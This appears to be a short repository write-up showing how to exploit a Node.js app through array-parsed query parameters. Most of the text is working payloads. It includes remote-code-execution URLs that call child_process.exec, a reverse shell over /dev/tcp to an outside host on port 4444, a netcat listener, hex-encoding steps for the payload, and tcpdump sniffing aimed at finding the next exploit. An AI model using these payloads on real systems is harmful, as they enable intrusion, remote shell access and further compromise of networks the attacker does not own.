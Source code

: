## Check for exploit
Node allows variables to be parsed as an array not a string
```
http://localhost:3000/?name[]=&name[]='
```

Becuase of this remote code execution is possible:
```
http://localhost:3000/?name[]=x&name[]=y'-require('child_process').exec('curl+-XPOST+localhost%3A3000+-d+%22Badguys%22')-'
http://localhost:3000/?name[]=x&name[]=y'-require('child_process').exec('0<&196;exec 196<>/dev/tcp/ssh.demo.gs/4444; sh <&196 >&196 2>&196')-'
```

First start a netcat server on your remote host which you have control of.
```
netcat -l -p 4444
```

Creating a string is easy first encode the script to execute, the following script will make a connection to a netcat server which is waiting at the other end on port 4444
```
xxd -c 256 -pu <<< 'bash -c "0<&196;exec 196<>/dev/tcp/your.server/4444; sh <&196 >&196 2>&196"'
```

Then past the output into the vunerability replacing `HEX GOES HERE` with your hex code, the string has to be fully url encoded in order for it to work, if it is not then the nodejs application will not evaluate the string in the correct way.
```
http://192.168.122.35:3000/?name[]=x&name[]=y%27-require(%27child_process%27).exec(new%20Buffer(%27%HEX GOES HERE%27,%27hex%27).toString())-%27
```

We can use this to execute commands to the remote bash session, this is slightly more rudimentary than SSH however is enough for our needs, to examine the traffic flowing through the server we can use tcpdump
```
tcpdump -lni eth0 not port 4444
```

This should give us some more information on where our next exploit is going to be.

